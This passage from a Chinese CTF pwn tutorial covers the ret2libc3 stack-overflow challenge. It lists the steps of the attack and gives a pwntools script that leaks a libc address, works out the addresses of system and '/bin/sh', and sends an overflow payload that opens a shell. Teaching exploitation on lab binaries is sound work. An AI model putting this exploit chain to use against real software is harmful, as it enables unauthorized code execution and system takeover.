 

https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc3/ret2libc3



- 泄露 __libc_start_main 地址

- 获取 libc 版本

- 获取 system 地址与 /bin/sh 的地址

- 再次执行源程序

- 触发栈溢出执行 system(‘/bin/sh’)

  ```
  from pwn import *
  sh = process('./ret2libc3')
  
  ret2libc3 = ELF('./ret2libc3')
  
  puts_plt = ret2libc3.plt['puts']
  libc_start_main_got = ret2libc3.got['__libc_start_main']
  main = ret2libc3.symbols['main']
  
  print "leak libc_start_main_got addr and return to main again"
  payload = flat(['A' * 112, puts_plt, main, libc_start_main_got])
  sh.sendlineafter('Can you find it !?', payload)
  
  print "get the related addr"
  libc_start_main_addr = u32(sh.recv()[0:4])
  libc = ELF("/lib/i386-linux-gnu/libc.so.6")
  libcbase = libc_start_main_addr - libc.sym['__libc_start_main']
  system_addr = libcbase + libc.symbols['system']
  binsh_addr = libcbase + libc.search("/bin/sh").next()
  
  print "get shell"
  payload = flat(['A' * 104, system_addr, 0xdeadbeef, binsh_addr])
  sh.sendline(payload)
  
  sh.interactive()
  PS：先ldd xxx 一下查看libc版本
  ```

  

#  中级ROP

## ret2csu

### 原理 [¶](https://wiki.x10sec.org/pwn/linux/user-mode/stackoverflow/x86/medium-rop/#_1)
